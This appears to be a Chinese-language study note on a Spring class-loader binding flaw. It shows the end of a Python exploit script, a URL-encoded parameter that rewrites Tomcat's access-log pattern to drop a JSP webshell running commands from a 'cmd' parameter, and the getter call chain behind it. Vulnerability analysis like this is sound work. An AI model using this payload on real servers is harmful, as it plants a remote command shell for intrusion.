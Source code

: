 ```py
        if dir_arg:
            location = urlparse(url_arg).scheme + "://" + urlparse(url_arg).netloc + "/" + filename + ".jsp"
        else:
            location = f"Unknown. Custom directory used. (try app/{filename}.jsp?cmd=whoami"
        print(f"[+] Shell should be at: {location}?cmd=whoami")
    except Exception as e:
        print(e)
 
 
if __name__ == '__main__':
    main()
```





```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20" \
                  f"java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter" \
                  f"(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B" \
                  f"%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di
```



`class.module.classLoader.resources.context.parent.pipeline.first.pattern`

`getClass`

​	`getModule`

​		`getClassLoader`

​			...

​				`getFirst`

​					`setPattern`



调用链

User.getClass()

java.lang.Class.getModule()

java.lang.Module.getClassLoader()

org.apache.catalina.loader.ParallelWebappClassLoader.getResources()

org.apache.catalina.webresources.StandardRoot.getContext()

org.apache.catalina.core.StandardContext.getParent()

org.apache.catalina.core.StandardHost.getPipeline()

org.apache.catalina.core.StandardPipeline.getFirst()

org.apache.catalina.values.AccessLogValue.setPattern()





漏洞的关键就在于，BeanWrapperImpl 中缓存了 class 属性！！